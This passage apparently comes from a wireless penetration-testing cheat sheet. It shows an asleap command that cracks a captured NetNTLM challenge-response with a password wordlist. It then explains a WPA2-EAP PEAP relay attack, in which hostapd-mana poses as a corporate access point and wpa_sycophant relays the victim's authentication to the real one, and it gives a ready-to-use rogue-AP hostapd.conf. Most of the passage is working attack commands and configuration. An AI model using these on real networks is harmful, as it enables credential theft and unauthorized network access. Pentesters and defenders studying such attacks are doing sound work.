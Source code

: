 Cracking the NetNTLM challenge using asleap
```
asleap -C 06:9b:40:83:37:90:fd:41 -R 27:63:33:83:e7:25:98:5e:6d:4f:ed:73:b9:c5:1a:cc:91:13:bc:f9:13:95:30:56 -W ../wordlists/100-common-passwords.txt
```

#### WPA2-EAP Relay
- https://sensepost.com/blog/2019/peap-relay-attacks-with-wpa_sycophant/
- https://sensepost.com/blog/2019/understanding-peap-in-depth/
- https://github.com/sensepost/wpa_sycophant
- https://www.youtube.com/watch?v=eYsGyvGxlpI

--> This attack need at least 2 interfaces (and 3 in case of deauthentication frame to be sent).  

1. Mana will pretend to be corporate AP
2. Supplicant (wpa_sycophant) retrieving the required information from mana to connect to the legitimate corporate AP.

<img src="./images/peap_relay.png" width="700"/>

This attack can fail if :
- User doesn't accept the rogue certificate
- Cryptographic binding (cryptobinding)
  - When cryptobinding is enabled it creates a connection between the two tunnels to ensure that the client that is authenticating against the RADIUS server is the same client that created the initial TLS tunnel to the access point.

Running hostapd-mana
```
hostapd-mana hostapd.conf | grep 'SYCOPHANT\|MANA'
```

hostapd.conf file
```
interface=wlan0
ssid=CorpoSSID
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
enable_sycophant=1
sycophant_dir=/tmp/
```
